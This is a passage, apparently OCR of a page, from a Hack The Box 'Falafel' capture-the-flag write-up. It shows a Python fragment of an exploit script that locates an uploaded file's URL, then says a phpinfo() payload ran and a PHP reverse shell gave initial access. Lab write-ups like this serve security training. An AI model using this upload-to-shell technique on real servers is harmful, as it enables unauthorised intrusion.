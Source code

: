 ```python
    # Get destination URL
    if "File not found" in r.text:
        print("Unable to locate exploit file")
        sys.exit()
    else:
        soup = BeautifulSoup(r.content, 'html5lib')
        html_pre_objects = soup.find_all('pre')

        # Get directory name
        directory = html_pre_objects[0].get_text().split(" ")[2].split("/")[5].split(";")[0]
        output_url = target_payload_url + "/" + directory + "/" + filename
        print(f"File uploaded to: {output_url}")
```
![Screenshot](/assets/img/htb-falafel-writeup-screenshot/image_16.png)
A simple `phpinfo();` payload is uploaded and successfully executed as shown below.
![Screenshot](/assets/img/htb-falafel-writeup-screenshot/image_15.png)
Then, a PHP reveres shell is created using revshells.com and initial access to the server is obtained.